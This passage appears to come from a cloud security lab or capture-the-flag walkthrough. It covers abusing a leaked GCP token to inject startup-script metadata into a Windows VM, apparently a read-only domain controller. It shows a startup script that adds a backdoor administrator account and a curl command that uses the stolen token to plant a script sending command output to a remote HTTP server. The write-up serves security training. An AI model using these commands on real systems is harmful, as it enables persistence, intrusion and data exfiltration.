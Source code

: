 Notice that you want to extract the `metadata.fingerprint` value. GCP requires the exact current fingerprint when setting metadata to ensure you're updating the correct version. If you use the wrong one, you'll get a `412 Precondition Failed` error.

Below is a simplified sample output of this command.

```bash
{
  "kind": "compute#instance",
  "id": "4583243601304432596",
  "creationTimestamp": "2025-07-16T22:59:23.750-07:00",
  "name": "rodc-ajrc-local",    # INSTANCE NAME
  "description": "",
  "tags": { "fingerprint": "42WmSpB8rSM=" },
  "machineType": "https://www.googleapis.com/compute/v1/projects/secops-scc-lab/zones/us-east1-d/machineTypes/e2-medium",
  "status": "RUNNING",
  "zone": "https://www.googleapis.com/compute/v1/projects/secops-scc-lab/zones/us-east1-d",
  "canIpForward": false,
  "metadata": {
    "kind": "compute#metadata",
    "fingerprint": "alsSqal8dOY=",  # FINGERPRINT
    "items": [
      {
        "key": "startup-script",
        "value": "net user attacker P@ssw0rd123 /add && net localgroup administrators attacker /add"
      }
    ]
  },
  "fingerprint": "0jINdcllz8Q="
}
```

```diff
+ ✅ You can try manage and move other configurations like firewall/network tags (tags.fingerprint) and instance labels (labelFingerprint). Can you find other ways to gain access or perform your goal?
```

**Persistance: Get remote access by Injecting metadata Using Leaked Cloud Token**

You can try insert a [start up script](https://cloud.google.com/compute/docs/metadata/overview#startup_and_shutdown_scripts) in the VM and perform some kind of operation.

Since this is a Read-only DC (We only know that because of the VM hostname), we know in advance that write operations are forbidden. Thus, our goal is to exfiltrate enough information to get access via a valid account.

```bash
# Change $REMOTE_HTTP_SERVER and $COMMAND manually.

curl -X POST -H "Authorization: Bearer $BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
       "fingerprint": "$FINGERPRINT",
       "items": [
         {
           "key": "windows-startup-script-ps1",
           "value": "Invoke-WebRequest -Uri "$REMOTE_HTTP_SERVER" -Method POST -Body $COMMAND"
         }
       ]
     }' \
     "https://compute.googleapis.com/compute/v1/projects/742540562663/zones/$ZONE/instances/$INSTANCE/setMetadata"
```
